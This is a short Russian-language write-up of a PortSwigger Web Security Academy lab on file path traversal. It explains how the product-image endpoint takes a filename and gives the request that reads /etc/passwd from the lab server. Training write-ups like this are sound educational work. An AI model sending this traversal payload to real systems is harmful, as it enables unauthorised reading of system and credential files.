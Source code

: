 ```yaml
---
title: "File path traversal, simple case"
date: 2025-07-04
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/file-path-traversal/lab-simple"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

## Solution

На странице представлены товары:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_simple_case/1.png){: height="200" .align-center}

На странице информация о товаре выдается по его `id`:

```url
https://0a9b001d04fc186f81fd6bf600c3003a.web-security-academy.net/product?productId=1
```

Картинка каждого товара загружается с помощью запроса:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_simple_case/2.png){: height="200" .align-center}

Такой запрос приводит к уязвимости **Path Traversal**. С помощью следующего запроса мы можем скачать файл с паролями:

```
https://0a9b001d04fc186f81fd6bf600c3003a.web-security-academy.net/image?filename=/../../../etc/passwd
```

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_simple_case/3.png){: height="200" .align-center}
